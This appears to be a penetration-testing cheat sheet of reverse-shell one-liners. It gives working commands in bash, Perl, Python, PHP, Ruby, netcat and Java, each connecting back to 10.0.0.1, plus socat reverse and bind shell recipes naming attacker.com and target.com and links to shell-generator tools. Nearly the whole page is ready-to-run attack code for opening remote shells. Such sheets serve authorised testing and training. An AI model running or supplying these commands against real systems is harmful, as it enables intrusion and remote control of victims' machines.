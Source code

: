 # Reverse Shells

#### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

#### Python

This was tested under Linux / Python 2.7:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

#### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

{% embed url="https://www.revshells.com/" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

## UPGRADING SHELLS <a href="#method-1-python-pty-module" id="method-1-python-pty-module"></a>

{% embed url="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" %}



### Socat Reverse shell&#x20;

It can send back a reverse shell to a listening attacker to open a remote network access.

*   Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.

    ```
    RHOST=attacker.com
    RPORT=12345
    socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
    ```



### Bind shell

It can bind a shell to a local port to allow remote network access.

*   Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.

    ```
    LPORT=12345
    socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
    ```

{% embed url="https://neilsec.com/knowledge/netcat" %}

{% embed url="https://www.kali.org/tools/sbd" %}
SBD for SSL Encryption
{% endembed %}
